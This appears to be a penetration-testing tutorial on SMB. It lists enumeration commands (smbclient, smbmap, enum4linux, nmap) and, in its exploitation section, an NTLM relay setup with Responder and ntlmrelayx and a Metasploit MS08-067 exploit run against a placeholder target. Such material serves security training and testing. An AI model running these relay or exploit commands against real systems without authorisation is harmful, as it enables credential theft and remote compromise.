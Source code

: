 #### SMB Share Enumeration

To enumerate SMB shares, you can use tools like `smbclient`, `smbmap`, or `enum4linux`. These tools allow you to connect to an SMB server and list its available shares.

```plaintext
$ smbclient -L <target_ip>
$ smbmap -H <target_ip>
$ enum4linux <target_ip>
```

#### SMB User Enumeration

To enumerate SMB users, you can use tools like `enum4linux`, `smbmap`, or `nmap`. These tools can help you identify valid usernames on an SMB server.

```plaintext
$ enum4linux -U <target_ip>
$ smbmap -H <target_ip> -u <username>
$ nmap -p 445 --script smb-enum-users.nse <target_ip>
```

#### SMB Group Enumeration

To enumerate SMB groups, you can use tools like `enum4linux` or `smbmap`. These tools can provide information about the groups present on an SMB server.

```plaintext
$ enum4linux -G <target_ip>
$ smbmap -H <target_ip> -g <groupname>
```

### SMB Exploitation

Once you have gathered information about an SMB server, you can proceed with exploiting its vulnerabilities. Common SMB vulnerabilities include weak authentication, misconfigured permissions, and outdated SMB versions.

#### SMB Relay Attacks

SMB relay attacks involve intercepting and relaying SMB authentication requests to gain unauthorized access to a target system. Tools like `Responder` and `ntlmrelayx` can be used to perform SMB relay attacks.

```plaintext
$ responder -I eth0
$ ntlmrelayx.py -tf targets.txt
```

#### SMB Exploits

There are several SMB exploits available that target specific vulnerabilities in SMB implementations. These exploits can be used to gain remote code execution or escalate privileges on a target system.

```plaintext
$ msfconsole
> use exploit/windows/smb/ms08_067_netapi
> set RHOSTS <target_ip>
> exploit
```
